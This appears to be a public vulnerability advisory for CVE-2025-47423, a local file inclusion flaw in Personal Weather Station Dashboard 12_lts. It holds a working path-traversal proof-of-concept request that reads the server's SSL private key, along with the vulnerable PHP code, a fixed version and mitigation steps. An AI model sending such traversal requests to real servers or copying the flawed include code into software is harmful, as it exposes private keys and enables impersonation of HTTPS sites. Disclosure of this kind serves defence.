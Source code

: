# CVE-2025-47423 – Local File Inclusion in Personal Weather Station Dashboard (12_lts)

**Discovered by:** Matthew Eagle  
**Status:** Public Disclosure  
**Date Reported:** 2025-05-05  
**CVE ID:** CVE-2025-47423

---

## 🧩 Summary

A Local File Inclusion (LFI) vulnerability in the `Personal Weather Station Dashboard` version `12_lts` allows unauthenticated remote attackers to read arbitrary files on the server. Exploiting this flaw grants access to sensitive files including private SSL keys, potentially compromising the confidentiality and integrity of HTTPS connections.

---

## 🛠 Affected Component

- File: `/others/_test.php`
- Vulnerable Parameter: `test` (via GET)

---

## 📈 Impact

This flaw allows remote attackers to:
- Read arbitrary files on the filesystem
- Expose private SSL keys (e.g., `server.key`)
- Perform man-in-the-middle (MITM) attacks
- Impersonate the HTTPS server

**CVSS Estimate:** Critical (Base Score ~9.8)

---

## 💥 Proof of Concept (PoC)

```http
GET /others/_test.php?test=../../../apache/conf/ssl.key/server.key HTTP/1.1
Host: www.example.com
```

Response:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAs2omMqKSB+lm7xu9Nu3C5...
...TRUNCATED...
-----END RSA PRIVATE KEY-----
```

---

## 🧪 Vulnerable Code (Simplified)

```php
$script = trim($_GET['test']);
$script = str_replace('../','',$script);
include($script);
```

The `str_replace` is insufficient to prevent directory traversal.

---

## 🔐 Secure Fix

- Use strict allowlisting for include targets
- Sanitize input with `basename()` and check against allowed files
- Avoid dynamic inclusion based on user input

```php
$allowed_tests = ['index.php', 'module_test.php'];
$script = isset($_GET['test']) ? basename($_GET['test']) : 'index.php';

if (!in_array($script, $allowed_tests)) {
    die("Invalid test file.");
}

include(__DIR__ . '/scripts/' . $script);
```

---

## 📅 Timeline

| Date        | Event |
|-------------|-------|
| 2025-05-05  | Vulnerability reported to PWS Dashboard moderators |
| 2025-05-06  | Acknowledgement and testing observed |
| 2025-05-07  | CVE-2025-47423 reserved via MITRE |
| TBD         | Public patch and CVE listing pending |

---

## 🧠 Mitigation

If you are running `Personal Weather Station Dashboard 12_lts`, you should:

- Immediately remove or update `_test.php`
- Implement the fixed script with file whitelisting
- Rotate and reissue any compromised TLS certificates

---

## 🧾 References

- [CVE-2025-47423 on MITRE (pending)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-47423)
- [Advisory posted on GitHub](https://github.com/haluka92/CVE-2025-47423)

---

## 🙏 Credit

Vulnerability discovered and responsibly disclosed by **Matthew Eagle**  
Contact: [meagle2006@gmail.com](mailto:meagle2006@gmail.com)

---

_Disclosure coordinated with respect to responsible disclosure guidelines. This document is released for educational and defensive purposes._
